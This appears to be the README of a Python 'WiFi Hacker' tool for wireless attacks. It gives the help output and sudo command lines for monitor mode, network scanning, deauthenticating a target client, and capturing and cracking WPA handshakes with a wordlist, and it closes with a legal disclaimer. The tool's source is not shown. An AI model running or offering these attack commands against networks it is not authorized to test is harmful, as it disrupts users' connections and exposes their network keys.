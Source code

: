 # WiFi Hacker
 _    _            _    
| |  | |          | |   
| |__| | __ _  ___| | __
|  __  |/ _` |/ __| |/ /
| |  | | (_| | (__|   < 
|_|  |_|\__,_|\___|_|\_\

## Features

- Switch network interface mode between monitor and managed.
- Scan for available WiFi networks.
- Capture WPA handshakes.
- Perform deauthentication attacks.
- Crack WPA handshakes using a wordlist.

## Requirements

- Python 3.x
- scapy
- hashcat

## Installation

1. Install the required Python packages:
    ```sh
    pip install -r requirements.txt
    ```

2. Ensure you have `hashcat` installed on your system.

## Usage

1. **Display Help**:
    ```sh
    sudo python wifi_hacker.py -h
    ```

    This will display:
    ```text
    usage: wifi_hacker.py [-h] -i INTERFACE [-H HANDSHAKE] [-w WORDLIST] [-s {monitor,managed}] [-S] [-d] [--bssid BSSID] [--client CLIENT]

    WiFi Hacker: WPA Handshake Capture and Crack Tool

    optional arguments:
      -h, --help            show this help message and exit
      -i INTERFACE, --interface INTERFACE
                            Network interface to use for capturing handshake
      -H HANDSHAKE, --handshake HANDSHAKE
                            File to save the captured handshake
      -w WORDLIST, --wordlist WORDLIST
                            Wordlist file to use for cracking the handshake
      -s {monitor,managed}, --switch {monitor,managed}
                            Switch interface mode (monitor/managed)
      -S, --scan            Scan for available WiFi networks
      -d, --deauth          Perform deauth attack (requires --bssid and --client)
      --bssid BSSID         Target BSSID for deauth attack
      --client CLIENT       Target client MAC address for deauth attack
    ```

2. **Switch Interface to Monitor Mode**:
    ```sh
    sudo python wifi_hacker.py -i <interface> -s monitor
    ```

3. **Switch Interface to Managed Mode**:
    ```sh
    sudo python wifi_hacker.py -i <interface> -s managed
    ```

4. **Scan for Available WiFi Networks**:
    ```sh
    sudo python wifi_hacker.py -i <interface> -S
    ```

5. **Perform Deauthentication Attack**:
    ```sh
    sudo python wifi_hacker.py -i <interface> -d --bssid <target_bssid> --client <target_client_mac>
    ```

6. **Run the Script to Capture and Crack WPA Handshake**:
    ```sh
    sudo python wifi_hacker.py -i <interface> -H handshake.cap -w /path/to/wordlist.txt
    ```

## Disclaimer

This tool is for educational purposes only. Unauthorized use of this tool to capture or crack WPA handshakes without explicit permission from the network owner is illegal. The author is not responsible for any misuse or damage caused by this tool.


